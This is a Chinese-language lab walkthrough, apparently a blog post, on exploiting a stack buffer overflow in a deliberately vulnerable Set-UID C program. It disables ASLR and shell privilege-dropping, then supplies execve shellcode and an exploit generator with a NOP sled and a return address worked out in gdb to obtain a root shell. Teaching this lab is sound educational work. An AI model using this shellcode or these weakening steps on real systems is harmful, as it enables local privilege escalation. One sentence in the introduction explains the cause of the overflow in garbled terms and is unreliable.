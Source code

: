 ```yaml
---
layout: post
title: stackOverflow
categories:
- paper
tags:
- technology
- 
---
```


##缓冲区溢出漏洞实验

##一、实验简介

缓冲区溢出是指程序试图向缓冲区写入超出预分配固定长度数据的情况。这一漏洞可以被恶意用户利用来改变程序的流控制，甚至执行代码的任意片段。这一漏洞的出现是由于数据缓冲器和返回地址的暂时关闭，溢出会引起返回地址被重写。

##二、实验准备

系统用户名shiyanlou
实验楼提供的是64位Ubuntu linux，而本次实验为了方便观察汇编语句，我们需要在32位环境下作操作，因此实验之前需要做一些准备。
1、输入命令安装一些用于编译32位C程序的东西：

	sudo apt-get update

	sudo apt-get install lib32z1 libc6-dev-i386

	sudo apt-get install lib32readline-gplv2-dev

2、输入命令“linux32”进入32位linux环境。此时你会发现，命令行用起来没那么爽了，比如不能tab补全了，所以输入“/bin/bash”使用bash：

##三、实验步骤

##3.1 初始设置

Ubuntu和其他一些Linux系统中，使用地址空间随机化来随机堆（heap）和栈（stack）的初始地址，这使得猜测准确的内存地址变得十分困难，而猜测内存地址是缓冲区溢出攻击的关键。因此本次实验中，我们使用以下命令关闭这一功能：
sudo sysctl -w kernel.randomize_va_space=0
此外，为了进一步防范缓冲区溢出攻击及其它利用shell程序的攻击，许多shell程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个Set-UID程序调用一个shell，也不能在这个shell中保持root权限，这个防护措施在/bin/bash中实现。
linux系统中，/bin/sh实际是指向/bin/bash或/bin/dash的一个符号链接。为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash。下面的指令描述了如何设置zsh程序：

	sudo su

	cd /bin

	rm sh

	ln -s zsh sh

	exit

##3.2 shellcode

一般情况下，缓冲区溢出会造成程序崩溃，在程序中，溢出的数据覆盖了返回地址。而如果覆盖返回地址的数据是另一个地址，那么程序就会跳转到该地址，如果该地址存放的是一段精心设计的代码用于实现其他功能，这段代码就是shellcode。
观察以下代码：

	#include <stdio.h>
	int main( ) {
	char *name[2];
	name[0] = ‘‘/bin/sh’’;
	name[1] = NULL;
	execve(name[0], name, NULL);
	}

本次实验的shellcode，就是刚才代码的汇编版本：
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
3.3 漏洞程序
把以下代码保存为“stack.c”文件，保存到 /tmp 目录下。代码如下：

	/* stack.c */
	/* This program has a buffer overflow vulnerability. */
	/* Our task is to exploit this vulnerability */
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	int bof(char *str)
	{
	char buffer[12];

	/* The following statement has a buffer overflow problem */
	strcpy(buffer, str);

	return 1;
	}

	int main(int argc, char **argv)
	{
	char str[517];
	FILE *badfile;
	badfile = fopen("badfile", "r");
	fread(str, sizeof(char), 517, badfile);
	bof(str);
	printf("Returned Properly\n");
	return 1;
	}

通过代码可以知道，程序会读取一个名为“badfile”的文件，并将文件内容装入“buffer”。
编译该程序，并设置SET-UID。命令如下：

	sudo su

	gcc -m32 -g -z execstack -fno-stack-protector -o stack stack.c

	chmod u+s stack

	exit

GCC编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。
而 -z execstack 用于允许执行栈。
##3.4 攻击程序
我们的目的是攻击刚才的漏洞程序，并通过攻击获得root权限。
把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

	/* exploit.c */
	/* A program that creates a file containing code for launching shell*/
	#include <stdlib.h>
	#include <stdio.h>
	#include <string.h>

	char shellcode[]=

	"\x31\xc0"    //xorl %eax,%eax
	"\x50"        //pushl %eax
	"\x68""//sh"  //pushl $0x68732f2f
	"\x68""/bin"  //pushl $0x6e69622f
	"\x89\xe3"    //movl %esp,%ebx
	"\x50"        //pushl %eax
	"\x53"        //pushl %ebx
	"\x89\xe1"    //movl %esp,%ecx
	"\x99"        //cdq
	"\xb0\x0b"    //movb $0x0b,%al
	"\xcd\x80"    //int $0x80
	;

	void main(int argc, char **argv)
	{
	char buffer[517];
	FILE *badfile;

	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);

	/* You need to fill the buffer with appropriate contents here */
	strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x??\x??\x??\x??");
	strcpy(buffer+100,shellcode);

	/* Save the contents to the file "badfile" */
	badfile = fopen("./badfile", "w");
	fwrite(buffer, 517, 1, badfile);
	fclose(badfile);
	}

	注意上面的代码，“\x??\x??\x??\x??”处需要添上shellcode保存在内存中的地址，因为发生溢出后这个位置刚好可以覆盖返回地址。
而 strcpy(buffer+100,shellcode); 这一句又告诉我们，shellcode保存在 buffer+100 的位置。
现在我们要得到shellcode在内存中的地址，输入命令：
gdb stack

disass main
结果如图：

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/19.jpg" style="width: 50%; height: 50%"/>​


根据语句 strcpy(buffer+100,shellcode); 我们计算shellcode的地址为 0xffffd1b0(十六进制)+100(十进制)=0xffffd214(十六进制)
现在修改exploit.c文件！将 \x??\x??\x??\x?? 修改为 \x14\xd2\xff\xff
然后，编译exploit.c程序：
gcc -m32 -o exploit exploit.c

##3.5 攻击结果

先运行攻击程序exploit，再运行漏洞程序stack，观察结果：

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/20.jpg" style="width: 50%; height: 50%"/>​

可见，通过攻击，获得了root权限！
如果不能攻击成功，提示”段错误“，那么请重新使用gdb反汇编，计算内存地址。

##四、练习

1、按照实验步骤进行操作，攻击漏洞程序并获得root权限。
2、通过命令”sudo sysctl -w kernel.randomize_va_space=2“打开系统的地址空间随机化机制，重复用exploit程序攻击stack程序，观察能否攻击成功，能否获得root权限。
3、将/bin/sh重新指向/bin/bash（或/bin/dash），观察能否攻击成功，能否获得root权限。
以上练习请在实验楼环境完成并截图。

<img src="https://github.com/dengguang2012/paper-Reading-Report/blob/master/illustraction/21.jpg" style="width: 50%; height: 50%"/>​


